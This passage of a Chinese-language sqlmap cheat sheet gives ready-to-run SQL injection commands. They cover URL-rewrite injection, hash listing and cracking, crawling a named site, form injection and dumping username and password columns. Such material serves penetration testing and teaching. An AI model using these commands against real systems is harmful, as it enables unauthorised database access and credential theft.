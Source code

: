 ### 2. URL重写SQL注入测试

value1为测试参数，加“*”即可，sqlmap将会测试value1的位置是否可注入。

sqlmap.py -u"http://targeturl/param1/value1*/param2/value2/"

### 3. 列举并破解密码哈希值

 当前用户有权限读取包含用户密码的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。

sqlmap.py -u"http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --passwords -v1

### 4. 获取表中的数据个数

sqlmap.py -u"http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -Dtestdb

### 5.对网站secbang.com进行漏洞爬去

sqlmap.py -u "[http://www.secbang.com](http://www.secbang.com/)"--batch --crawl=3

### 6.基于布尔SQL注入预估时间

sqlmap.py -u "http://192.168.136.131/sqlmap/oracle/get_int_bool.php?id=1"-b --eta

### 7.使用hex避免字符编码导致数据丢失

sqlmap.py -u "http://192.168.48.130/pgsql/get_int.php?id=1" --banner --hex -v 3 --parse-errors

### 8.模拟测试手机环境站点

python sqlmap.py -u"http://www.target.com/vuln.php?id=1" --mobile

### 9.智能判断测试

sqlmap.py -u "http://www.antian365.com/info.php?id=1"--batch --smart

### 10.结合burpsuite进行注入

（1）burpsuite抓包，需要设置burpsuite记录请求日志

sqlmap.py -r burpsuite抓包.txt

（2）指定表单注入

sqlmap.py -u URL --data“username=a&password=a”

### 11.sqlmap自动填写表单注入

自动填写表单：

> sqlmap.py -u URL --forms 
>
> sqlmap.py -u URL --forms --dbs
>
> sqlmap.py -u URL --forms --current-db
>
> sqlmap.py -u URL --forms -D 数据库名称--tables
>
> sqlmap.py -u URL --forms -D 数据库名称 -T 表名 --columns
>
> sqlmap.py -u URL --forms -D 数据库名称 -T 表名 -Cusername，password --dump
